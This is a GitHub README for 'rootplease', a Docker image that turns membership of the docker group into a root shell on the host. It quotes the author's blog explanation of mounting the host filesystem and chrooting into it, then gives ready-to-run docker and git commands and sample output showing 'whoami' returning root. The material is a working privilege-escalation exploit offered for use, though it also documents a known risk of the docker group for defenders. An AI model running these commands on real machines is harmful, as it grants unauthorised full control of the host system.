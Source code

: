 Root Please
======================

Some important quoted text striped from Chris's blog.

*The command you run to perform the privilege escalation fetches my Docker image from the Docker Hub Registry and runs it. The -v parameter that you pass to Docker specifies that you want to create a volume in the Docker instance. The -i and -t parameters put Docker into ‘shell mode’ rather than starting a daemon process.

The instance is set up to mount the root filesystem of the host machine to the instance’s volume, so when the instance starts it immediately loads a chroot into that volume. This effectively gives you root on the machine.

There are many, many other ways to achieve this, but this was one of the most straightforward. You can find the code in the Github repo and the actual image on Docker Hub.*



**How to Use**

Through Docker Hub:

```bash
> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```
 
Or through Github:

```bash
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -i -t rootplease
```

And the result:

```bash
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```

So if you're a member of the 'docker' group on a machine, this command gives you a root shell on the host OS. [See my Chris's blog post for details](https://fosterelli.co/privilege-escalation-via-docker.html).

